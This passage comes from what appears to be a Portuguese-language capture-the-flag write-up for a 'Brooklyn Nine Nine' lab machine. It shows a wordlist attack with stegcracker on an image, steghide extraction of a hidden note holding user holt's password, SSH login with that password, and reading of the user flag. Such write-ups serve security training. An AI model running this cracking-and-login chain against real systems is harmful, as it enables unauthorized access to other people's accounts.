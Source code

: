 ```bash
Successfully cracked file with password: admin
Tried 20523 passwords
Your file has been written to: brooklyn99.jpg.out
admin
```

O que faz:

Tenta senhas da wordlist para abrir o conteúdo oculto pela imagem.

Quando `stegcracker` acha a senha, ela pode ser usada com steghide.

**Resultado**: senha encontrada = `admin`.

### 4. Extrair o arquivo oculto e ler credenciais

Extração com a senha obtida:

```bash
┌──(root㉿kali)-[/home/kali/Downloads]
└─# steghide extract -sf brooklyn99.jpg                        
Enter passphrase: admin
wrote extracted data to "note.txt".

┌──(root㉿kali)-[/home/kali/Downloads]
└─# cat note.txt 
Holts Password:
fluffydog12@ninenine

Enjoy!!
```

Agora temos credenciais: `holt:fluffydog12@ninenine`

### 5. Acesso SSH com Holt e leitura do user.txt

```bash
ssh holt@10.201.71.101
```

No home do usuário holt havia o user.txt:

```bash
holt@brookly_nine_nine:~$ ls -la
total 48
drwxr-xr-x 6 holt holt 4096 May 26  2020 .
drwxr-xr-x 5 root root 4096 May 18  2020 ..
-rw------- 1 holt holt   26 Aug 12 12:29 .bash_history
-rw-r--r-- 1 holt holt  220 May 17  2020 .bash_logout
-rw-r--r-- 1 holt holt 3771 May 17  2020 .bashrc
drwx------ 2 holt holt 4096 May 18  2020 .cache
drwx------ 3 holt holt 4096 May 18  2020 .gnupg
drwxrwxr-x 3 holt holt 4096 May 17  2020 .local
-rw-r--r-- 1 holt holt  807 May 17  2020 .profile
drwx------ 2 holt holt 4096 May 18  2020 .ssh
-rw------- 1 root root  110 May 18  2020 nano.save
-rw-rw-r-- 1 holt holt   33 May 17  2020 user.txt
holt@brookly_nine_nine:~$ cat user.txt
ee11cbb19052e40b07aac0ca060c23ee
```

